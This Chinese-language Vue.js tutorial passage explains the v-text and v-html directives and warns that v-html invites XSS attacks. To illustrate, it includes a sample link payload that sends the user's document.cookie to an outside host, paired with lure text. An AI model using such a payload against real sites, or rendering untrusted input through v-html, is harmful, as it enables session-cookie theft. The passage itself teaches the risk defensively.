 



## 1.18 内置指令

### 1.17.1 v-text、v-html

1.作用：向其所在的节点中渲染文本内容。

2.与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会。

```html
<!-- 准备好一个容器-->
<div id="root">
    <div>你好，{{name}}</div>
    <div v-text="name"></div>
    <div v-text="str"></div>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'张三',
            str:'<h3>你好啊！</h3>'
        }
    })
</script>
```

**v-html指令：**(使用的很少)

1.作用：向指定节点中渲染包含html结构的内容。

2.与插值语法的区别：

* v-html会替换掉节点中所有的内容，{{xx}}则不会。
* v-html可以识别html结构。

3.严重注意：v-html有安全性问题！！！！

* 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
* 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```js
<!-- 准备好一个容器-->
<div id="root">
    <div>你好，{{name}}</div>
    <div v-html="str"></div>
    <div v-html="str2"></div>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'张三',
            str:'<h3>你好啊！</h3>',
            str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        }
    })
</script>
```
